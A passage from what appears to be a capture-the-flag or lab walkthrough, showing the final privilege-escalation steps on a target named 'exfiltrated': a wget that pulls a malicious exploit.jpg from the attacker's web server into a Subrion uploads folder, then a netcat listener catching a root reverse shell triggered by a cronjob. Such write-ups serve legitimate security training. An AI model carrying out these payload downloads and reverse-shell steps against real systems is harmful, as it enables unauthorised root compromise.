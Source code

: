 With our python web server still running, let's transfer the malicious **exploit.jpg** to **/var/www/html/subrion/uploads** on the target.

```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.118.11/exploit.jpg -O /var/www/html/subrion/uploads/exploit.jpg 
<it.jpg -O /var/www/html/subrion/uploads/exploit.jpg
--2021-08-27 23:21:00--  http://192.168.118.11/exploit.jpg
Connecting to 192.168.118.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 123 [image/jpeg]
Saving to: ‘/var/www/html/subrion/uploads/exploit.jpg’

/var/www/html/subri 100%[===================>]     123  --.-KB/s    in 0s      

2021-08-27 23:21:00 (21.5 MB/s) - ‘/var/www/html/subrion/uploads/exploit.jpg’ saved [123/123]

www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

Finally, we'll wait about a minute for the cronjob to execute and trigger our shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.118.11] from (UNKNOWN) [192.168.120.227] 46296
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

We have root!